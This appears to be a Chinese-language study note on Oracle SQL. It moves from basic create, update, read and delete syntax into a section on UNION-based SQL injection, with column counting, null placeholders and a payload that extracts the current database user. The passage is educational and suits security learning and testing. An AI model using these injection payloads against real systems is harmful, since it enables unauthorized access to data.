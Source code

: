 **Create:**

```sql
CREATE TABLE table_name (
  column_name1 data_type,
  column_name2 data_type,
  .......)
```

[Oracle DataType](https://docs.oracle.com/cd/B28359_01/server.111/b28318/datatype.htm): [Oracle jdbc datatype](https://www.cnblogs.com/liuyuanyuanGOGO/archive/2013/05/09/3068605.html)


**Update:**

更新表：

```sql
update tablename [alternateName]
  set columnname = newValue where condition;
```

插入数据：

```sql
INSERT INTO table_name VALUES(1, 'admin', 'Admin@123');
```

**Read:**

```sql
select * from table_name;
```

**Delete：**

```sql
-- 可以回滚，不删除空间，大表格数据时性能较差
delete from tablename where condition;
-- 删除表对象，也会快速清除表数据，不能回滚
drop table table_name;
```

## 0x03 SQLi

### union select

Oracle 的数据类型是强匹配的，所以在 Oracle 进行类似 UNION 查询数据时候必须让对应位置上的数据类型和表中的列的数据类型是一致的，也可以使用 null 代替某些无法快速猜测出数据类型的位置，最后查询返回指定的记录时，Oracle 没有 limit 函数，要通过'>=0 <=1'这种形式来指定。

```sql
select password from sqli where rownum>=0 and rownum<=1
select password from (select rownum r, password from sqli) where r>=0 and r<=1 --
```

(1) Order by 判断列数：order by x --

(2) 判断列数后使用 null 代替来注入数据 
```sql
union select null,null,null,null,null,null,null,null,null,null from dual --
```
(3) 获取当前数据库用户信息和数据库信息
```sql
union select null,(SELECT user FROM dual where rownum=1),null from dual --
```
